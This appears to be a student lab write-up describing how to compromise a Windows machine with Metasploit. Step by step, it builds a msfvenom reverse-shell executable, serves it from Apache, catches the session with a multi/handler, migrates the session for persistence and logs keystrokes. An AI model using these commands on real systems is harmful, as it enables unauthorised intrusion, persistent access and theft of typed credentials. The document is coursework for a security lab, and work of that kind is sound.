 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

PROGRAM: Find the attackers ip address using ifconfig
![Screenshot 2025-04-23 205340](https://github.com/user-attachments/assets/9ae8bbf2-8bb0-4b23-afd8-f4762132c2cc)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe copy the fun.exe into the apache /var/www/html folder Start apache server sudo systemctl apache2 start Check the status of apache2 sudo apache2 status

## OUTPUT:
![Screenshot 2025-04-23 205643](https://github.com/user-attachments/assets/d3a3036c-384d-489a-b621-8b2fdf8c5013)
Invoke msfconsole: Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole. Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit
On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.
Bypass any warning boxes, double-click the file, and allow it to run. On kali give the command exploit
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

![431915762-729dc34c-b5b1-4cc6-8770-22d2331caede](https://github.com/user-attachments/assets/9d271d68-4a2f-453c-ac8b-8bca86c8b4bb)
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

![431915851-d93cac14-3fc3-444b-8159-bc2e0bc66d3a](https://github.com/user-attachments/assets/f2ca75f7-2887-4336-ae2e-12c6013105cb)
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![431915958-2cfb6dd1-773b-4b42-9cd5-6cbb204a3145](https://github.com/user-attachments/assets/5648e16b-3be2-4722-806d-4ddfbe014106)
Post Exploitation: The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

keyscan_dump Shows the keystrokes captured so far 

![431916021-0810a377-a529-4f89-896e-af33fad9b043](https://github.com/user-attachments/assets/b5f08410-8ba5-4300-9044-0611f4724bbb)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.

